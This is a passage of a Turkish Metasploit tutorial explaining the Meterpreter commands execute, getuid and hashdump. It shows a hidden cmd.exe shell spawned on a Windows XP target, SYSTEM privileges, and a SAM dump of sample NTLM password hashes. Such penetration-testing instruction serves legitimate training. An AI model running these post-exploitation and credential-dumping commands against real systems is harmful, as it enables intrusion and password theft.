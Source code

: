 

## execute



`execute` komutu, karşı tarafta bir komut çalıştırmanızı sağlar. Dikkat ederseniz, Meterpreter’in kendi komutları çalıştırılmamakta. Karşı tarafın komut istemcisinde bir komut çalıştırılmaktadır.


```bash
meterpreter > execute -f cmd.exe -i -H
Process 38320 created.
Channel 1 created.
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```



## getuid



Karşı tarafta Meterpreter’in çalıştığı sistemin kullanıcı kimliğini görüntüler.


```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```



## hashdump



`hashdump` komutu, karşı taraftaki bilgisayarın SAM veri tabanını ortaya çıkarır. Tabii ki önceki Veri tabanı yazımızda belirttiğimiz gibi Workspace kullanıyorsanız, `loot` tablosuna kayıt eder.


```bash
meterpreter > run post/windows/gather/hashdump 

> Obtaining the boot key...
> Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...

Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
meterpreter >
```

